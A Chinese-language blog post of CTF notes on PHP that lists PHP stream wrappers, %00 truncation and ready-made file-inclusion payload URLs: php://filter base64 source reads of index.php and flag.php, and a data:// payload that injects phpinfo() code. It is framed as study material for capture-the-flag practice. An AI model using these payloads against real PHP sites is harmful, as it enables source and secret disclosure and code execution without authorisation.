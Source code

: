 ```yaml
---
layout: post
title:  "CTF中PHP考察点"
subtitle: 'CTF中PHP利用点'
date:   2019-08-26 18:00:00
tags: CTF PHP
description: 'CTF PHP'
color: 'rgb(221,121,7)'
cover: 'https://i.loli.net/2020/03/20/2uZBoKtEzc3fW84.jpg'
---
```


PHP版本<=5.2 可以使用%00进行截断。

#### PHP伪协议
php:// — 访问各个输入/输出流（I/O streams）
file:// — 访问本地文件系统
phar:// — PHP 归档
zlib:// — 压缩流
data:// — 数据（RFC 2397）
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
glob:// — 查找匹配的文件路径模式
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流

##### php://协议
php://filter
php://input

```
php://filter/read=convert.base64-encode/resource=index.php
/lfi.php?file=php://filter/convert.base64-encode/resource=flag.php
/lfi.php?file=php://filter/read=convert.base64-encode/resource=flag.php
```

file_get_contents获取php://input内容(POST)，需要开启allow_url_include，并且当enctype=”multipart/form-data”的时候 php://input是无效的。

使用php://input 读取post内容

##### file://
用于访问本地文件系统，并且不受allow_url_fopen，allow_url_include影响，file://还经常和curl函数(SSRF)结合在一起

##### data://

将 include 的文件流重定向到用户控制的输入流

/test.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpO2V4aXQoKTsvLw==
可以用于控制 file_get_contents 的内容为用户输入的流

